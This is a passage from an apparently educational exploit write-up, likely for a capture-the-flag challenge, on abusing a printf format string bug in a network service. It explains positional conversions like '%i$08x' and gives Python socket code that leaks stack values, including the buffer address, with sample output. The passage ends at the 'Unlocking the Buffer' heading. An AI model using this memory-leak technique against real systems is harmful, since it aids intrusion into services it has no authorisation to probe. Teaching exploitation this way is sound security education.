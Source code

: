 ## Gathering Data

We can now read data from the stack. However, we can still send just 13 bytes to the server, and so we can not just send a large amount of "%x" commands to read *all the data* from the stack.
(These "commands" are called "conversion specifications" in the *printf* man page. I will be calling them "conversions" for the sake brevity in the following.)
We would thus like to have *arbitrary read access* on the stack. Taking a look at the *printf* man page, we quickly find a way to do this: The conversion *%i$x* (where i is a number in decimal) dumps the *i*-th argument to printf (or whatever data lies at the address the *i*-th argument would be placed at).
We augment our conversion to *%i$08x*, so *printf* will pad the output to 8 hexadecimal characters, adding zeroes if needed.
My code for this is shown below. (The code is for Python 3 and probably not compatible with Python 2.)

{% highlight python %}
import binascii
def getValueFromStack(position, socket):
	response = makeRequest("%" + str(position) + "$08x", socket)
	response = binascii.unhexlify(response[0:8])
	response = bytearray(response)
	response.reverse() # Byte order correction
	return response

def getIntFromStack(position, socket):
	return int.from_bytes(getValueFromStack(position, socket), byteorder='little')
{% endhighlight %}

We can now use this code to get some data (including the buffer address!) from the stack:

{% highlight python %}
s = connect()

zero = getIntFromStack(3, s)
assert(zero == 0)

bufsize = getIntFromStack(4, s)
print("buffer size: " + hex(bufsize))

buffer_address = getIntFromStack(5, s)
print("buffer address: " + hex(buffer_address))
	
zero = getIntFromStack(6, s)
assert(zero == 0)
{% endhighlight %}

(*bufsize* refers to the number of expected input bytes, not the actual size of the buffer.)
Let's try this:
	
	$ python3 exploit.py
	buffer size: 0xd
	buffer address: 0xfff377dc

## Unlocking the Buffer
